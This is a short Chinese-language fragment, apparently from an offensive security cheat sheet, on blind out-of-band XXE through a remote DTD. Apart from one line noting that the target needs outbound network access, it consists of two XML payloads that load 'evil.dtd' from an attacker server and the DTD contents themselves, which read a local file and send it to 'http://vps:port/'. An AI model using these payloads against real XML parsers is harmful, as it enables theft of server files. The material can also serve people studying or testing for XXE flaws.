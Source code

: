 ![](img/1.png)



### 远程dtd读取

前提可出网，通常用于无回显的场景

```xml
<?xml version='1.0'?>
<!DOCTYPE RemoteDTD SYSTEM "http://vps/evil.dtd" >
<root>&send;</root>
```

或

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ENTITY % dtd SYSTEM "http://vps/evil.dtd">
%dtd;]>
<comment>
	<text>&send;</text>
</comment>
```

Evil.dtd内容

```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///tmp/1.txt">
<!ENTITY % print "<!ENTITY send SYSTEM 'http://vps:port/?%file;'>">
%print;
```
